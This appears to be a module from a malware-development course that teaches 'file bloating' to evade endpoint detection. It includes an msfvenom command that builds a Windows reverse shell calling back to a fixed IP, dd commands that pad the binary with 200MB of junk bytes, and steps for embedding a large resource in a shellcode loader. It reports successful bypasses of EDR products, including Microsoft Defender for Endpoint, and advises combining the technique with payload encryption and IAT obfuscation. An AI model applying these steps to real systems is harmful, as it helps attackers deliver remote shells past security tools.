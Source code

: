 ## Evasion With File Bloating

### Introduction

File bloating is an evasion technique where a malicious file is inflated with junk data, usually by appending a large number of null bytes to the end of the file. This has been an effective technique against some security solutions because many security solutions have a limit as to the file size they are capable of scanning. This limitation exists because security solutions, specifically host-based ones, wish to avoid excessive consumption of system resources during scans to prevent the machine from experiencing lag or slowdown.

This module will demonstrate ways to bloat a file and test the effectiveness of the technique against EDRs. The binary that will be bloated in this module is one generated from Msfvenom using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.130 LPORT=443 -f exe -o mal.exe`.

### Appending Null Bytes

As previously mentioned, it's common to append a large number of null bytes to the file. There are many ways to do so, in this module the `dd` command will be used on Kali Linux.

```
# Make a copy of mal.exe
cp mal.exe mal-200mb.exe

# Add 200mb worth of null bytes to the end of the file
dd if=/dev/zero bs=1M count=200 >> mal-200mb.exe
```

It's possible to verify that null bytes were appended by using `xxd` to view the hex contents of the file. A large number of zeros should be appended to the end of the file.

```
xxd mal-200mb.exe | more
```

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/file-bloating-xxd-1.png)

#### EDR Test (1)

The following example shows how the detection behavior of the two files, `mal-200mb.exe` and `mal.exe` are different. While both files are eventually detected, `mal-200mb.exe` is only detected upon execution, therefore successfully bypassing static detection.

[![Video-Demo](https://maldevacademy.s3.amazonaws.com/new/update-two/demo-1-cover.png)](https://maldevacademy.s3.amazonaws.com/new/update-two/demo-1.mp4)

In fact, the `mal-200mb.exe`'s process is only terminated after the network connection is established. This means that the file contents aren't being flagged, rather the network connection arising from the process is the one triggering the EDR.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/file-bloating-nc-success.png)

#### EDR Test (2)

When the same file bloating technique is implemented on a binary from another C2 framework, such as Sliver, the binary successfully runs with no issues.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/file-bloating-sliver-running.png)

The video demo is shown below.

[![Video-Demo](https://maldevacademy.s3.amazonaws.com/new/update-two/demo-2-cover.png)](https://maldevacademy.s3.amazonaws.com/new/update-two/demo-2.mp4)

### Large Metadata

Another way of bloating a file is by including large metadata during the compilation process. Including metadata within a file was demonstrated in the _Binary Metadata Modification_ module. The steps are listed out below:

1. Create a large file of random data. In this case, a 200MB file of `FF` bytes was created using `dd if=/dev/zero bs=1M count=200 | tr '\000' '\377' > file.bin`.
    
2. Create a `.rc` file in the Visual Studio project. Reference the _Binary Metadata Modification_ module for a refresher if necessary.
    
3. Add `IDR_BINARY_FILE BINARY file.bin` to the `.rc` file.
    
4. Compile the solution.
    

This should create a large file that includes `file.bin` within the binary. To verify this claim, use `xxd` to inspect the binary and look for the `FF` bytes.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/large-metadata.png)

#### EDR Test (3)

A modified version of the code found in _Local Payload Execution - Shellcode_ was used for this demonstration. The code was then further modified to include the large `file.bin` file that was shown in the previous section. Next, the binary was tested against Microsoft Defender For Endpoint and successfully executed.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/MDE-Test.png)

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/MDE-Test-2.png)

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/MDE-Test-3.png)

### Conclusion

File bloating is a simple technique that can be implemented on any binary for additional evasion. Keep in mind that different security solutions will react differently to large binaries. For example, Microsoft Defender For Endpoint still flags malicious content within a large binary. Therefore it's important to use file bloating as an added evasion technique in combination with other techniques such as payload encryption, IAT obfuscation etc.